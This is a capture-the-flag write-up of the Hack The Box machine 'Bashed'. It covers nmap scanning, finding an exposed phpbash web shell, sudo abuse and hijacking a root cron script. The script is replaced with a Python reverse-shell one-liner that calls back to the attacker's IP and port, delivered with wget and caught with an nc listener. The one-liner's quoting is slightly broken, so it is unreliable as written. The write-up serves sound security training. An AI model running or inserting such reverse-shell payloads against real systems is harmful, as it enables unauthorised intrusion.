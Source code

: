 Next up: Bashed.

Starting with `nmap -A -T4 -Pn 10.10.10.68`:

<img src="/assets/images/htb-bashed/nmap.png">

Apache 2.4.18 running through port 80. System is running Ubuntu. Let's go check out the website:

<img src="/assets/images/htb-bashed/landing.png">

So phpbash is a pretty PHP web shell. The author mentions that he developed on *this server*. There's a link in the URL bar in the screenshot on their homepage:

<img src="/assets/images/htb-bashed/url.png">

Sadly, visiting it throws a 404. But it's probably somewhere on the server. Dirbuster time. While that ran, I looked for potential Apache 2.4.18 exploits, but didn't find anything useful for a remote attack. Here are the dirbuster results:

<img src="/assets/images/htb-bashed/dirbuster.png">

<img src="/assets/images/htb-bashed/dev.png">

There's the `phpbash.php` file. Let's try visiting it:

<img src="/assets/images/htb-bashed/phpbash.png">

We're in, as www-data. Let's try visiting `/`:

<img src="/assets/images/htb-bashed/basedir.png">

Theres a /scripts folder which shouldn't exist by default.

Also, in the home folder, there are 2 users:

<img src="/assets/images/htb-bashed/homeusers.png">

Looks like we have to be scriptmanager to access the scripts folder:

<img src="/assets/images/htb-bashed/permissions.png">

Let's try `sudo -l`:

<img src="/assets/images/htb-bashed/sudol.png">

Ok, so as www-data we can run anything as scriptmanager without a password. Can we maybe get a shell as the scriptmanager user?

Let's look at the scripts folder as scriptmanager: `sudo -u scriptmanager chmod 777 scripts`

<img src="/assets/images/htb-bashed/scripts.png">

 `test.py` is writing "testing 123!" into `test.txt`:

<img src="/assets/images/htb-bashed/testpy.png">

<img src="/assets/images/htb-bashed/testtxt.png">

On closer analysis, we see that `test.txt` doesn't have the same timestamp as the folder and `test.py`. It actually has the current time.

I used `watch -n1 -x ls -la` to run `ls -la` every second to see how often `test.txt` was being written to. It changed in a minute:

<img src="/assets/images/htb-bashed/cron.png">

So `test.py` keeps executing. Can we put the code to get a reverse shell into it? We can't use nano because this shell isn't tty, but we can make a file on our attacking machine and `wget` the file from the web shell:

On our machine: 

`echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.95,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);" > test.py` (my IP is 10.10.16.95 and I used port 4444)

and `sudo python -m SimpleHTTPServer 80` in the same directory. Also, open a listener on port 4444 with `nc -nvlp 4444`.

<img src="/assets/images/htb-bashed/wget.png">

After waiting for a few seconds:

<img src="/assets/images/htb-bashed/wait.png">

<img src="/assets/images/htb-bashed/root.png">

<img src="/assets/images/htb-bashed/flags.png">

And we're done. I noticed when submitting my flags that there were a lot more user submissions than root, so I must have used a different approach. Anyway, this was a short fun box. Thanks for reading!
